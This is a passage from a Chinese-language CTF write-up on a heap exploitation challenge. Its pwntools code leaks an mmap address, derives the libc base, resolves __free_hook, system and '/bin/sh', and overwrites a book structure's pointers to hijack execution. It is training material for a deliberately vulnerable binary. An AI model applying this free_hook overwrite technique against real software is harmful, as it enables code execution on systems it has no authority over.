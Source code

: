 可以看到'a' * 0x70是从地址（ubuntu）0x555555757690开始填充直到地址0x555555757700开始填充payload，所以程序在执行功能“4”时会打印出地址0x00007ffff7dce010（book2_name的地址）

## 5、计算libc基地址，freehook、system、/bin/sh地址
既然我们得到了book2_name的地址就可以计算libc的基地址了

> 请注意，book2_name的内容在mmap扩展的内存空间里。
>

payload如下：

```python
log.info("Leaking mmap address...")
time.sleep(1)
p.sendline("4")
p.recvuntil("Name: ")
mmap_addr = u64(p.recv(6) + '\x00\x00')
```

通过调试我们可以得到 libc 和这个 mmap 分配的堆块之间的偏移是固定的，我们使用book2_name_addr计算偏移。

> book2_desc_addr - libc_addr = 0x00007ffff7dce010- 0x7ffff79e4000= 0x3EA010
>
> 即：libc_addr = book2_desc_addr - 0x3EA010
>

```python
log.info("Calculating libc's base")
time.sleep(1)
libc_addr = mmap_addr - 0x3EA010    # Change offset if it doesn't work!
#由于有elf文件并且关闭了ASLR，可以直接得到libc基址，也可以这样写
#libc_addr = 0x7ffff79e4000
time.sleep(1)
log.success("Libc's addr : 0x%x" % libc_addr)
```

在得到libc基地址之后就可以通过pwntools查找函数了，可以直接利用pwntools查找free_hook函数

> free_hook = libc.symbols["__free_hook"] + libc_addr
>

<font style="color:#1A1A1A;">调用 edit 功能，修改 book1(现在是伪造book1)的 description项，payload：</font>

```python
log.info("Searching __free_hook & system & /bin/sh in libc...")
free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr
time.sleep(1)
log.success("__free_hook address: 0x%x" % free_hook)
log.success("system address: 0x%x" % system)
log.success("/bin/sh address: 0x%x" % binsh)
time.sleep(1)
log.info("Changing book2's pointers...")
time.sleep(1)
payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)
'''
def edit(index, desc):
    p.sendline("3")
    p.recvuntil("Enter the book id you want to edit: ")
    p.sendline(str(index))
    p.recvuntil("Enter new book description: ")
    p.sendline(desc)
'''
p.recvuntil("> ")
time.sleep(1)
log.success("Book2's name and description's pointer has been changed!")
```